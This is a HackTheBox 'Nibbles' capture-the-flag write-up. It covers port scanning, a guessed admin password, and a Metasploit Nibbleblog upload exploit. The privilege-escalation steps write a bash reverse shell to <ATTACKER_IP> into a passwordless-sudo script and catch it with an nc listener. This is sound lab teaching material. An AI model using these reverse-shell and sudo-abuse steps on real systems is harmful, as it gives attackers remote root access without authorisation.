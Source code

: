 # HackTheBox - Nibbles

It starts as always with the usual portscan.

`nmap -sS -T4 -sV <IP>`

![Screenshot0](./screenshots/0.png)

We have a web server and SSH server open.

I started to take a closer look at the web server.
After the first look there is only a simple __Hello World__, but if we look at the source code we can see an interesting directory.

![Screenshot1](./screenshots/1.png)

I went to the path and saw a small blog.

![Screenshot2](./screenshots/2.png)

I found out that `Nibbleblog` is vulnerable to `Arbitrary File Upload`.
But first we need a valid access.

The login to the CMS administration area was located at `/nibbleblog/admin.php`.
But I found nowhere credentials.

I enumerated until I could not think of anything.
Finally it was simple __Password Guessing__ and the name of the box which gave me access to the admin panel.

Now I was able to use an exploit from Metasploit, which worked well.

I got a reverse shell as user `nibbler`...

![Screenshot3](./screenshots/3.png)

...and got the user flag.

![Screenshot4](./screenshots/4.png)

## PrivEsc

When we type `sudo -l` we see an interesting setting.

![Screenshot5](./screenshots/5.png)

We can run as user `root` with `sudo` without specifying a password a script called `monitor.sh`.
I wanted to look at the file permissions of the file but it was not there yet.

Ok, so all we had to do was to create the script and the folders as they are in the sudo configuration.
And the script which we can run as root, we can make as we want.

Here are the steps I did:

1) `mkdir -p /home/nibbler/personal/stuff/`
2) `cd /home/nibbler/personal/stuff/`
3) `echo \#\!/bin/bash >> monitor.sh`
4) `echo "/bin/bash -i >& /dev/tcp/<ATTACKER_IP>/4141 0>&1" >> monitor.sh`
5) `chmod +x monitor.sh`
5) -start listener: `nc -nlvp 4141`
6) `sudo -u root /home/nibbler/personal/stuff/monitor.sh`

I got a new shell on my listener as `root` and retrieved the flag.

![Screenshot6](./screenshots/6.png)
